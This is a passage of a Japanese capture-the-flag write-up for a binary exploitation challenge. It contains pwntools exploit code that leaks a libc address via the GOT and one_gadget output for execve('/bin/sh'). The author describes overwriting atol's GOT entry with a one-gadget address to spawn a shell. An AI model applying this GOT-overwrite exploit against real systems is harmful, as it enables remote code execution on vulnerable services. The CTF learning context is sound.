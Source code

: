 ```python
print(ret)
io.send(b"-2\n")
ret = read_until(io, b"value: ")
print(ret)
io.send(str(addr_got_atol).encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
addr = pwn.p64(addr_pop_rdi)
io.send(addr + b"\n")

ret = io.read(100)
ret = ret + b"\x00\x00"
addr_libc = pwn.u64(ret)
print("leak address is 0x%x" % addr_libc)
```

### one gadget RCEの書き込み

ここまでで残り時間1時間。
とりあえずlibcからone_gadgetでlibcのone gadget RCEを抽出
```
$ one_gadget ./libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
リークさせたはいいがこれからどうすればいいのか思いつかなかった。
リークさせた後startに飛ばしてみるもうまく行かず。
ここでタイムアップ．．．

### 延長戦

一番最初のGOTと同じようにreadで書き込めばいいじゃん！前にそんなwriteup見たことある気がする！と終わった後に思いついてしまって実装。
printf呼んだ後にreadでatolのGOTに対してone gadget RCEのアドレス書き込んであげてatolのpltを呼んで終了。
one gadget RCEは2番目のやつが刺さった。
時間内に解きたかった...

```python
import pwn
import sys

def read_until(io, s):
    ret = b""
    while ret.find(s) == -1:
        ret += io.read(1)
    return ret


addr_got_read = 0x601030
addr_plt_read = 0x4005b0
addr_got_printf = 0x601020
addr_plt_printf = 0x400590
addr_got_atol = 0x601040
addr_plt_atol = 0x4005d0
```